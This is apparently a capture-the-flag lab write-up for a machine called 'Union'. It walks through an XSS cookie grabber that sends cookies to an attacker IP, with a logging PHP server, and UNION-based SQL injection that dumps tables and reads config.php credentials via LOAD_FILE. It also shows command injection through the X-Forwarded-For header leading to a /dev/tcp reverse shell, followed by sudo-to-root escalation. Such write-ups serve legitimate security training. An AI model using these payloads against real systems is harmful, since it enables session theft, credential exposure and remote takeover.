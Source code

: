 ```yaml
---
layout: post
title: "Union"
date: 2025-04-20 
categories: CPTS Playlist
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.96.75 --ulimit 5000

result:
80/tcp open  http    syn-ack

sudo nmap -sC -sV -p80 -oA nmap/union 10.129.126.21

result:
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The site has a player eligibility check field. It is vulnerable to xss

```bash
<script> alert(1) </script>
```

![image.png]({{ site.baseurl }}/assets/union/image.png)

Let’s enumerate subdirectories

```bash
gobuster dir -u http://10.129.96.75 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,php

result:
/css                  (Status: 301) [Size: 178] [--> http://10.129.96.75/css/]
/config.php           (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 1220]
/challenge.php        (Status: 200) [Size: 772]
/firewall.php         (Status: 200) [Size: 13]

#firewall.php access denied
```

Create js script to grab the cookie: js.script

```bash
new Image().src='http://10.10.14.118/index.php?c='+document.cookie

```

Create php server script: index.php

```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

```

Now run the server

```bash
sudo php -S 0.0.0.0:80
```

Now execute the XSS exploit

```bash
<script src=http://10.10.14.118/script.js></script>

```

It’s our own cookie..

Let’s also try SQL injections with sqlmap. First coy the POST request to file

![image.png]({{ site.baseurl }}/assets/union/image%201.png)

Now use sqlmap:

```bash
sqlmap -r player.req --batch
```

Did not work

Let’s do the same with the flag request page:

```bash
sqlmap -r flag.req --batch
```

sqlmap returns nothing

We had to have started with a valid name that is not eligible

```bash
ippsec
```

![image.png]({{ site.baseurl }}/assets/union/image%202.png)

Now we try to inject it with sql

![image.png]({{ site.baseurl }}/assets/union/image%203.png)

It is still return not eligible, but when we try a user who is eligible, we get

![image.png]({{ site.baseurl }}/assets/union/image%204.png)

Therefore we know that the site is vulnerable to sql injections. Let’s try union injection

```bash
ipps' union SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA-- - 
```

![image.png]({{ site.baseurl }}/assets/union/image%205.png)

The result mysql is the first row of the schemata table.

Let’s find out how many columns are the table returning:

```bash
ipps' UNION select 1,2-- -

This return congratulations again so we know the table only has 1 column
```

As it only returns one field, let’s concat all rows together

```bash
ipps' union select group_concat(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA-- - 

result:mysql,information_schema,performance_schema,sys,november
```

The only non-default table is november. Let’s enumerate further

```bash
ipps' union select group_concat(TABLE_NAME, ":", COLUMN_NAME, "\n") FROM INFORMATION_SCHEMA.columns where TABLE_SCHEMA like 'november'-- - 

result:
Sorry, flag:one
,players:player
```

There is a flag table with column name one, and players table with column name player

Let’s see the flag table first

```bash
ipps' union select group_concat(one, "\n") FROM november.flag-- - 

result:
UHC{F1rst_5tep_2_Qualify}
```

Let’s do the player

```bash
ipps' union select group_concat(player, "\n") FROM november.players-- -

result:
Sorry, ippsec
,celesian
,big0us
,luska
,tinyboy 
```

let’s input the flag into the site. Our IP address has now been granted ssh access.

We can continue on with our injection to find user credentials to access.

```bash
ipps' union select LOAD_FILE('/var/www/html/index.php')-- -

result:
we see file pointing to a config.php. Let's see what that is

ipps' union select LOAD_FILE('/var/www/html/config.php')-- -

result:
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

We get a username and password.

Now let’s try to ssh in. We are in.

```bash
cat user.txt

3f1ceafb864dd39736ecbfbb3f9d6c0b
```

Let’s investigate the web configuration files more as normally only the root user is allowed to set firewall rules to allow us to access another port.

Looking at the firewall.php file in /var/www/html, we can see there is a command injection flaw. This lets any thing put in variable $ip and gets executed.

```bash
 <?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

 
```

Now let’s visit the firewall.php and capture the traffic so we can add the header and command inject

![image.png]({{ site.baseurl }}/assets/union/image%206.png)

As we can see, when we added the whoami, the server replied with www-data, another way is to use the command sleep 2; see if the server stops for 2 seconds before replying. Now we can try a reverse shell

```bash
host:
nc -lnvp 4040

On burp:
bash -c 'bash -i >&/dev/tcp/10.10.14.118/4040 0>&1';
```

![image.png]({{ site.baseurl }}/assets/union/image%207.png)

Now we have shell

Now we check sudo privileges

```bash
sudo -l                                                                                                                                   00:00:31 [12/62]
Matching Defaults entries for www-data on union:                                                                                                          
    env_reset, mail_badpass,                                                                                                                              
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                              
                                                                                                                                                          
User www-data may run the following commands on union:                                                                                                    
    (ALL : ALL) NOPASSWD: ALL   
```

We can execute anything…

```bash
sudo su root

```

- sql union injection
- leaked config files using LOAD_FILE
- command injection vulnerability using HTTP HEADERS
- sudo -l privileges